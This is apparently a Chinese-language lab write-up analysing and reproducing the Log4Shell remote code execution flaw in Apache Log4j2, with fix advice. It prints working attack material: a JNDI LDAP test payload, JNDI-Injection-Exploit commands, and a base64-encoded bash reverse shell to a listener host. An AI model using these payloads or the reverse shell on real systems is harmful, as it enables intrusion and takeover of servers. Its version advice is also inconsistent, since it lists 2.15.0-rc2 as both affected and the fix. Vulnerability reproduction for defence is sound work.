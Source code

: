 Apache Log4j远程代码执行漏洞分析与复现利用

0x1：漏洞描述
2021年12月9日，Apache Log4j 的远程代码执行漏洞细节被公开，大量的业务框架都使用了该组件。此次漏洞是用于 Log4j2 提供的 lookup 功能造成的，该功能允许开发者通过一些协议去读取相应环境中的配置。该漏洞一旦被攻击者利用会造成严重危害。经过快速分析和确认，该漏洞影响范围极其广泛，危害极其严重。
Apache Log4j2是一款优秀的Java日志框架。由于Apache Log4j2某些功能存在递归解析功能，未经身份验证的攻击者通过发送特别构造的数据请求包，可在目标服务器上执行任意代码，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经验证Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响。

0x2：受影响版本
Apache Log4j 2.x <= 2.15.0-rc2

供应链影响范围，已知受影响应用及组件：
Apache Solr、Apache Flink、Apache Druid、srping-boot-strater-log4j2、dubbo、Flume、Redis

0x3：漏洞级别
高危、远程代码执行，目前漏洞rce-exp已网上公开，找到受影响的参数，提交
“${jndi:ldap://****. dnslog.cn/exp}”进行测试。

0x4：漏洞环境搭建与复现
漏洞靶场搭建，网上有搭建好的docker环境漏洞靶场，需要先安装docker环境

docker pull registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln
 
docker run -it -d -p 8888:8080 --name log4j_vuln_container registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln 
docker exec -it log4j_vuln_container /bin/bash
/bin/bash /home/apache-tomcat-8.5.45/bin/startup.sh

执行完以上操作，可以访问存在Apache Log4j远程代码执行漏洞，这里192.168.32.168的ip地址是我安装了docker虚拟机的ip地址，url如下：
http://192.168.32.168:8888/webstudy/hello-fengxuan

由于该漏洞是jndi加载ldap协议就可以触发漏洞，使用
JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar进行ldap协议监听，并提前输入好需要执行的命令，命令如下：
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/88888888888" -A 192.168.32.1
-C后面添加的是需要执行的命令
-A后面是监听的IP地址
 
只要根据JDK的版本，提交不同的ldap
如果JDK 是1.7，可以使用
ldap://192.168.32.1:1389/sjrchi
如果JDK 是1.8，可以使用
ldap://192.168.32.1:1389/fojm7q

通过BurpSuite提交数据包，由于url只接受需POST数据，受影响的参数是c，在验证的时候，一定要加入
Content-Type: application/x-www-form-urlencoded;
 
已经接收到ldap协议数据
 
如果Apache Log4j远程代码执行漏洞成功，就会执行命令touch /tmp/88888888888，在tmp目录下建一个88888888888文件

进入docker环境漏洞靶场，查看命令是否执行成功，文件成功被创建
docker exec -it log4j_vuln_container /bin/bash
 

通过修改-C里面的命令内容，获取shell
对bash -i >& /dev/tcp/192.168.32.1/22 0>&1命令进行加密处理
 
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjMyLjEvMjIgMD4mMQ==}|{base64,-d}|{bash,-i}" -A 192.168.32.1
 
 
成功获取shell
 

0x5：漏洞修复建议
1、升级Apache Log4j2组件到最新版本（log4j-2.15.0-rc2）：
https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2
2、其他缓解措施：
（1）禁止没有必要的业务访问外网
（2）修改jvm参数 -Dlog4j2.formatMsgNoLookups=true
（3）修改配置log4j2.formatMsgNoLookups=True
（4）将系统环境变量 FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS 设置为 true
（5）禁止使用Apache Log4j2服务器外连，升级JDK 11.0.1 8u191 7u201 6u211或更高版本。
